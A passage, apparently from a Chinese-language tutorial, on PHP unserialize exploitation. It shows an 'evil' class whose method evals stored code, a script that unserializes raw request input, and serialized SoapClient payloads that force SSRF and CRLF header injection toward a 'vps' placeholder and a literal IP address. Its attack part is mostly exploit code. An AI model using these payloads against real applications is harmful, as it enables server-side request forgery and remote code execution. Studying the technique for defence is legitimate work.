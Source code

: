 ```
}
class evil{
private $data = "phpinfo();";
function action(){
eval($this->data);
}
}
$test = new lemon;
echo urlencode(serialize($test));
?>
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08b9gia0Zib0wl48m1ZT5skGd8DmUy7lIJF2UGRThxmdA7uEhSkjFWMQq2hqBlJAj6VEWlwfpenibp3w/640?wx_fmt=png)  

 原生类利用

__call 方法

```
<?php
$rce = unserialize($_REQUEST['u']);
echo $rce->notexist();
?>
```

  
构造 exploit  

```
<?php
echo serialize(new SoapClient(null, array('uri'=>'http://vps/','location'=>'http://vps/aaa')));
?>
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08b9gia0Zib0wl48m1ZT5skGdjFBq8pBZ3F3uK7q95P3ILglnO6ADpicO1UYljxKf8HRM29jIkjARjVw/640?wx_fmt=png)  

利用 crlf 进行更加深入的利用

```
<?php
$rce = unserialize($_REQUEST['u']);
echo $rce->notexist();
?>
```

构造 exploit

```
<?php
$poc = "i am evil string...";
$target = "http://47.94.37.154:8080";
$b = new SoapClient(null,array('location'=>$target, 'uri'=>'hello^^'.$poc.'^^hello'));
$aaa = serialize($b);
$aaa = str_replace('^^', "\n\r", $aaa);
echo urlencode($aaa);
?>
```
